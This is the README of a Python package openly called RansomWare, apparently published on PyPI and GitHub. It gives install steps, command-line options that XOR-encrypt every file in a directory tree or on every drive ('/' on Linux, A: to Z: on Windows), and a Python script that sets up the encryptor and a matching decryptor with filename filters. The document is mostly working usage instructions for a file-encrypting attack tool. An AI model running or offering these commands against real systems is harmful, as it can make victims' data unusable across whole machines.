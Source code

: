 # RansomWare

## Description
This package implement a RansomWare.

## Requirements
This package require :
 - python3
 - python3 Standard Library

## Installation
```bash
pip install RansomWare
```

## Launcher

## Command line:
```bash
RansomWare aaa # Crypt all files in current directory and subdirectories with XOR and key aaa
RansomWare -t 56 aaa # Crypt all files in current directory and subdirectories with XOR and key aaa and sleep 56 secondes between file.
RansomWare -e 64 YWFh # Crypt all files in current directory and subdirectories with XOR and key aaa (encoded with base64)
RansomWare -d dir aaa # Crypt all files in dir and subdirectories with XOR and key aaa
RansomWare -a aaa # Encrypt all files on Windows this argument encrypt "A:\", "B:\", "C:\", ... "Z:\". On Linux this argument replace directory by "/".
```

### Python script
```python
from RansomWare import RansomWare

def get_IV(filename: str) -> bytes:
	""" This function return my custom IV. """
	return filename.encode()

def crypt(key: bytes, data:bytes) -> bytes:
	""" This function encrypt data with key. """
	return bytes([(car + key[i % len(key)]) % 256 for i, car in enumerate(data)])

def decrypt(key: bytes, data:bytes) -> bytes:
	""" This function decrypt data with key. """
	return bytes([(car - key[i % len(key)]) % 256 for i, car in enumerate(data)])

cryptolocker = RansomWare(
	b"aaa", # Key
	function_encrypt = crypt, # function to encrypt from key and data
    function_IV = get_IV, # function to get IV from filename
    directory = "dir", # directory to encrypt
    timeBetweenCrypt = 5, # time to sleep between encrypt files
    regexs_filename_to_encrypt = [".*txt", ".*ini"], # encrypt file if filename match with this regex
    regexs_filename_dont_encrypt = ["^/bin.*"], # don't encrypt file if filename match with this regex
)
cryptolocker.launch()

unlock = RansomWare(
	b"aaa", # Key
	function_encrypt = decrypt, # function to decrypt from key and data
    function_IV = get_IV, # function to get IV from filename
    directory = "dir", # directory to decrypt
    timeBetweenCrypt = 5, # time to sleep between decrypt files
    regexs_filename_to_encrypt = [".*txt", ".*ini"], # decrypt file if filename match with this regex
    regexs_filename_dont_encrypt = ["^/bin.*"], # don't decrypt file if filename match with this regex
)
unlock.launch()
```

### Python executable:
```bash
python3 RansomWare.pyz -t 5 -d dir -e 64 YWFh

# OR
chmod u+x RansomWare.pyz # add execute rights
./RansomWare.pyz aaa # execute file
```

### Python module (command line):

```bash
python3 -m RansomWare aaa
python3 -m RansomWare.RansomWare  -t 5 -d dir -e 64 YWFh
```

## Links
 - [Github Page](https://github.com/mauricelambert/RansomWare/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/RansomWare.html)
 - [Download as python executable](https://mauricelambert.github.io/info/python/security/RansomWare.pyz)
 - [Pypi package](https://pypi.org/project/RansomWare/)

## Licence
Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).

